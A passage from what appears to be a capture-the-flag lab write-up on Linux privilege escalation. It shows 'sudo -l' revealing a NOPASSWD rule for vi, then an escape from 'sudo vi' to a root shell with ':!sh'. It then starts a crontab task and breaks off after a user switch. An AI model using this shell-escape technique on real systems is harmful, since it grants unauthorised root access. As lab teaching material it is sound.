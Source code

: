 **#1 First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user8, with the password "password"**

```bash
root@polobox:/home/user7# exit
exit
user7@polobox:~$ su user8
Password: 

user8@polobox:/home/user7$ cd ~
user8@polobox:~$
```

No answer needed

**#2 Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?**

```bash
user8@polobox:~$ sudo -l
Matching Defaults entries for user8 on polobox:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user8 may run the following commands on polobox:
    (root) NOPASSWD: /usr/bin/vi
```

Answer: NOPASSWD

**#3 So, all we need to do is open vi as root, by typing "sudo vi" into the terminal.**

```bash
user8@polobox:~$ sudo vi
```

No Answer needed

**#4 Now, type ":!sh" to open a shell!**

No answer needed

# [Task 8] Exploiting Crontab

**#1 First, let's exit out of root from our previous task by typing "exit". Then use "su" to swap to user4, with the password "password"**

typing exit took me back to vi just type :q! to exit vi and return to user8

```bash
# exit

shell returned 100

Press ENTER or type command to continue
user8@polobox:~$
```
```bash
user8@polobox:~$ su user4
Password: 
 
user4@polobox:/home/user8$ cd ~
user4@polobox:~$
```
